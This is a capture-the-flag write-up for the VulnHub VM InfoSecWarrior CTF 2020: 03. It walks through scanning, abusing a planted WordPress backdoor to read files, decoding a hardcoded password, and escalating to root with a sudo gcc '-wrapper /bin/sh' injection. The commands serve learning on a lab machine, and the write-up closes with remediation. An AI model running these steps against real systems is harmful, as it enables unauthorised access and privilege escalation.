# InfoSecWarrior CTF 2020 03

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [InfoSecWarrior CTF 2020: 03](https://www.vulnhub.com/entry/infosecwarrior-ctf-2020-03,449/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:U/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:U/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This VM is given as challenge 3 in InfoSecWarrior CTF 2020. Official website : https://www.infosecwarrior.com/. This box is dedicated to my mentors (you will find there names in the box itself). If you face any error or needed help ping me on Twitter CyberKnight00. Or ping them after finding their names. During the CTF event, this box contains a Loot box (zip file) consist of download link of the next Challenge and super_flag.txt. Goal : You have to gain highest privileges and collect only 2 flags (user flag and root flag). loot box is not available in this VM. The WordPress developer configured the machine to work internally. But due to some miss-configuration wordpress is exposed to outside world. Get the root flag. BTW someone already hacked the box and placed his backdoor find it. It will help you. This works better with VirtualBox rather than VMware. WordPress is MEANT to be on 127.0.0.1. Can you find away to view it?*


## Summary
InfoSecWarrior CTF 2020: 03 starts with a misconfigured `WordPress` site that redirects all resources to `localhost`, with `iptables` I could redirect `localhost` to the current `IP` of the target machine. after exploring the site, I find a backdoor in`/index.php/category/uncategorized/`, the backdoor allows me to see all files in the server, I assume with the user `www-data`, after exploring it I find `backup.txt` in the `loopspell` home, and this file is a binary, after decompiled it with `Ghidra` I identify that it stores a password in the `backup` function, and it does it with a simple substitution cipher, then I find that the `loopspell` password is `Pyth0n`. When I try it with the `ssh` connection it works, and I get the user flag. I also find the `/home/loopspell/code_compiler.sh` script, that `loopspell` can run with sudo privileges, and it uses the `gcc` command with a  `$source_code` variable, and that is not surrounded by double quotes or brackets, then see [gcc in gtfobins](https://gtfobins.github.io/gtfobins/gcc/) and I can modify the `gcc` command with the variable expansion, and spawn a root shell, and get the root flag.

1. CWE-1269: Product Released in Non-Release Configuration
2. CWE-506: Embedded Malicious Code
3. CWE-522: Insufficiently Protected Credentials
4. CWE-74: Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection')

#VirtualBox #Nmap #Ghidra #Python #gtfobins #MySQL #WordPress #WPScan #iptables #Backdoor #MariaDB #GCC #SubstitutionCipher

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.32`



And I think this machine description is very important:
```
WordPress developer configured the machine to work internally.
But due to some misconfiguration, WordPress is exposed to the outside
world.
...
BTW someone already hacked the box and placed his backdoor to find it.
It will help you.
```

When I start scanning the target with `nmap`:
```shell
$ nmap -sV -oA scans/nmap-tcp-scan 192.168.2.32
...SNIPPED...
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...SNIPPED...
```
Then I identify 2 open ports, the `OpenSSH 7.6p1 Ubuntu` service runs on `22` TCP, and the `Apache httpd 2.4.29` service runs on `80` TCP, and it runs on `Ubuntu`. When I use the `whatweb` command:
```shell
$ whatweb 192.168.2.32
http://192.168.2.32 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.2.32],
MetaGenerator[WordPress 5.3.2], PoweredBy[-wordpress,-wordpress,,
WordPress], Script, Title[TEST WORDPRESS &#8211;
Just another WordPress site], UncommonHeaders[link], WordPress[5.3.2]
```
Then I can identify that the web service uses `WordPress 5.3.2`

## Normal use case

Given I access `http://192.168.2.32/`, then I can see:



And it seems that `WordPress` is not working properly, and I can notice that the resources are being called to the `localhost`, and this must be caused by the previously mentioned `misconfiguration`

>**Note**: This misconfiguration is similar to the [08-wpwn-1 machine](./../08-wpwn-1/README.md).

## Dynamic detection
`WordPress` misconfiguration and backdoor allow reading server files.

Given I access `http://192.168.2.32/`, but all resources are requested to `127.0.0.1`, then I check if I can access those resources from `192.168.2.32`, and it works, and I need to make a rule to redirect traffic from `127.0.0.1`, and send it to `192.168.2.32`.

When I use the `iptables` command:
```shell
$ sudo iptables -t nat -A OUTPUT -d 127.0.0.1 -j DNAT \
> --to-destination 192.168.2.32
```
And I run:
```shell
$ sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```
Then it fails, when I google `iptables fail to redirect 127.0.0.1`, then I find [iptables port redirect not working for localhost](https://serverfault.com/questions/211536/iptables-port-redirect-not-working-for-localhost):



When I use the `iptables` command:
```shell
$ sudo  iptables -t nat -A OUTPUT -o lo -d 127.0.0.1 -p tcp --dport 80 \
> -j DNAT  --to-destination 192.168.2.32:80
```
And I run:
```shell
$ sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```
And I run :
```shell
$ sudo sysctl -w net.ipv4.conf.all.route_localnet=1
```
And I access `http://192.168.2.32/`, then I can see that it works:



And I can read the author `krishna`.
When I use the `wpscan` command, and I use the `API token` that I get when I register at [Wpscan website](https://wpscan.com/), and I use a list of Seclist:
```shell
$ wpscan -U krishna --rua -e ap,at,tt,cb,dbe,u,m --url \
> http://192.168.2.32/ [--plugins-detection aggressive] \
> --api-token $WPSCAN_API --passwords probable-v2-top1575.txt
```
But at this point, I noticed that the `MariaDB` database fails, and I lose the connection with the `WordPress` service
And I know it because of the target's `log`:



And maybe that is caused by the previously mentioned backdoor, And from this point on, **I have to reboot the machine several times**.

When I run the `wpscan` command again, hen I can see that `wpscan` finds 37 vulnerabilities`:



But before I try one of them, I am going to check out the site. When I start exploring the `WordPress` site, then I find a backdoor in `/index.php/category/uncategorized/`, and it allows me to see the files on the server:



And it seems that it also allows me to execute `MySQL` queries

## Exploitation
Credentials in a binary file and escalate privileges with sudo and `GCC`

Given I access `http://192.168.2.32/`, and I was able to redirect traffic from `127.0.0.1` to `192.168.2.32`, and I find a backdoor in `/index.php/category/uncategorized/`, and that backdoor allows me to read the files on the server, and it seems that it also allows me to execute `MySQL` queries, then I explore the files on the server, and I find a file called `msg.txt` in `krishna`'s home:



And it says:
```
I configured WordPress for you and make you the admin of it.
Your login credentials are the same as your system login credentials.
```
And I also read the `wp-config.php` file in the webroot, and I can see the credentials from the database:



When I try to query with those credentials on the backdoor page, then it fails. When I look at the `loopspell` home, then I can see a `backup.txt` file:



And it is a binary, when I download it with the `curl` command:
```shell
$ curl "http://127.0.0.1/index.php/category/uncategorized/?dl=
> /home/loopspell/&file=backup.txt" --output backup.txt
```
And I use `Ghidra` to decompile it:



Then I can see that the main function has nothing useful, but there is a `backup` function:



And it contains a password that is created in the for loop. When I use `Python3` to apply the data conversion:
```Python
>> data = b'\x51\x7a\x75\x69\x31\x6f'
>>> password = ''.join(map(lambda b: chr(b-1) , data))
>>> print(f'{password}')
Pyth0n
```
Then I get the `Pyth0pn`.
When I use the `ssh` command with the credentials `loopspell:Pyth0n`:
```shell
$ sshpass -p "Pyth0n" ssh loopspell@192.168.2.32
```
Then I get the `loopspell`'s shell, and I can also read the user flag:



## Privilege escalation

When I read the `code_compiler.sh` file in the `home` directory:
```bash
#!/bin/sh
source_code="${1}"
echo "Code is being compiling ..."
/usr/bin/gcc $source_code -o $(mktemp)
echo "You can find your compiled code in /tmp/ directory."
```
And I can notice that the script belongs to the `root` user, when I use the `sudo` command:
```shell
loopspell@ck05:~$ sudo -l
...SNIPPED...
User loopspell may run the following commands on ck05:
    (ALL : ALL) /usr/bin/gcc
    (ALL : ALL) NOPASSWD: /home/loopspell/code_compiler.sh
```
And that means, I can run the script `code_compiler.sh`, and I can do it with `root` privileges without using a password. When I notice that the `gcc` command uses the `$source_code` variable, and that is not surrounded by double quotes or brackets, then I can modify the `gcc` command. When I look [gcc in gtfobins](https://gtfobins.github.io/gtfobins/gcc/):



And I send the payload found in gtfobins:
```shell
$ loopspell@ck05:~$ sudo /home/loopspell/code_compiler.sh \
> '-wrapper /bin/sh,-s .'
```
Then I can get the `root` shell, and I can get the `root` flag:



## Remediation
Given I find a backdoor in `/index.php/category/uncategorized/`, then they must remove it, and they must correctly configure `WordPress`, and do not expose a product when it is in development, and do not store the server password in an unencrypted binary, and do not reuse passwords, and do not give unnecessary `root` permissions.